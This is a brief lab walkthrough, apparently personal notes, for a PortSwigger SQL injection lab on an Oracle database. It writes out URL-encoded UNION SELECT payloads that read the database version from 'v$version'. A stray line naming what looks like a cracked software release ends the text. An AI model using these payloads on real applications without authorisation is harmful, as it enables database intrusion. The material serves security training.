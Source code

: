 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

`UNION SELECT` should be used with two or more selections, as we see in [[lab-determine-number-of-columns]]. 

So we need to use the selection, like just before.
`/filter?category='+UNION+SELECT+NULL,NULL,NULL--`
But this won't work.
As the web application is using ORACLE as RDBMS, we need to adjust the syntax slightly
```url
%27+UNION+SELECT+NULL,null+FROM+dual--
```
For further information explore the cheat sheet https://portswigger.net/web-security/sql-injection/cheat-sheet
And after then we corroborate we should check the version using `v$version`, so just let's add it to the union select
```url
%27+UNION+SELECT+banner,null+FROM+v$version--
```

FLStudio.v24.1.2.4394.WiN.audiotools.in